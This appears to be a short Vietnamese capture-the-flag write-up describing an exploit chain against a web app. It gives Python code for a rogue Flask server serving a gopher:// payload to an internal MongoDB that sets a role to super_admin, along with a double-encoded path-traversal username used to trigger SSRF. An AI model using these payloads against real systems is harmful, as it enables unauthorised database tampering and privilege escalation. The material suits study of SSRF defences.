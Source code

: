 TLDR, các bước tấn công bao gồm:

Attacker tạo một rogue server để gửi link `gopher://` để cho thằng `curl` nó request tới mongoDB để edit role thành `super_admin`.

```python
app = Flask(__name__)
gopher_payload = gen_mongowire_payload("Dat2Phit")

@app.route("/payload", methods=["GET"])
def payload():
  payload = {
    'data': {
      "mal_id": 420,
      "titles": [
        {
          "type": "Default",
          "title": "lmao"
        }
      ],
      "images": {
        "jpg": {
          "image_url": f"gopher://mongo:27017/_{gopher_payload}"
        }
      },
      "favorites": 6969,
      "about": "lmaolmao"
    }
  }
  return jsonify(payload)

app.run(host="0.0.0.0", port=80, debug=False)
```

Sau đó sửa `/etc/hosts` để chỉa `api.jikan.moe` về ip của attacker. Rồi path traversal api `/user/:username/export` để request tới `/studio/:producerId` để trigger SSRF tới attacker server.

=> username: `..%2fstudio%2f..%252f..%252fpayload%2523%23`

=> Lúc gửi tới `/user/:username/export` thì curl sẽ gửi request tới `http://localhost:80/user/../studio/..%2f..%2fpayload%23#/export` == `http://localhost:80/studio/..%2f..%2fpayload%23`

Mà chỗ api `/studio/:producerId` cũng bị path traversal. 

```javascript
const mal_id = req.params.producerId;
// ...
const request = jakanMisc.infoRequestBuilder(
  'http://api.jikan.moe/v4/producers',
  mal_id,
  'full'
);
data = await jakanMisc.makeRequest(normalizeUrl(request));
```
